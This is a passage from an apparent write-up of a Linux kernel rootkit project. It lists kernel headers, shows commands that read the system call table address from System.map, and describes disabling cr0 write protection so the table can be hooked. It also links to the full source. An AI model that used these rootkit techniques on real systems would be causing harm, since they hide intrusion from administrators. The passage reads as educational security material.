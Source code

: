 
**4. Implementations**

This part illustrates main parts of code snippets and descriptions. Overall, the design of the _rookit_ has considered an extendable structure. It is simple to add new features as well as debugging and cooperative tasks on top of current architecture. You may want to check out full codes in my _github_ here: [https://github.com/kevinkoo001/rootkit](https://github.com/kevinkoo001/rootkit)

(1) Main headers

    
    #include <linux/init.h>
    #include <linux/kernel.h>
    #include <linux/errno.h>	// error numbers
    #include <linux/types.h>
    
    #include <linux/module.h>	// struct module
    #include <linux/unistd.h>	// all system call numbers
    #include <linux/cred.h>		// struct cred
    #include <linux/sched.h>	// struct task_struct
    #include <linux/syscalls.h>	// all system calls
    #include <linux/slab.h>
    #include <linux/fs.h>		// virtual file system 
    #include <linux/uaccess.h>
    #include <linux/ioctl.h>
    #include <linux/miscdevice.h>
    #include <linux/string.h>	// String manipulation
    #include <linux/kobject.h>	// Define kobjects, stuructures, and functions
    #include <linux/namei.h>	// file lookup
    #include <linux/path.h>		// struct path, path_equal()
    #include <linux/file.h>		// struct file *fget(unsigned int fd);
    #include <linux/proc_fs.h>      // struct proc_dir_entry;
    
    #include <asm/system.h>
    #include <asm/current.h>
    #include "config.h"


(2) Main part of the _rootkit_

The system call table address can be obtained from _System.map_ as following:

    
    $ sudo cat /boot/System.map-`uname -r` | grep sys_call_table
    ffffffff81801300 R sys_call_table


The following command will not work in kernel 3.x because it does not allow export to _/proc/kallsyms_

    
    $ sudo cat /proc/kallsyms | grep sys_call_table
    0000000000000000 R sys_call_table


Hence we used PROT_DISABLE and PROT_ENABLE which are the scripts to set system call table to be writable directly by enabling and disabling **cr0** register protection respectively, pre-defined in _config.h. _There are many other (old) techniques to manipulate system call table. (One of well written articles is here by chanam.park: [http://hkpco.kr/paper/crtlk.txt](http://hkpco.kr/paper/crtlk.txt))
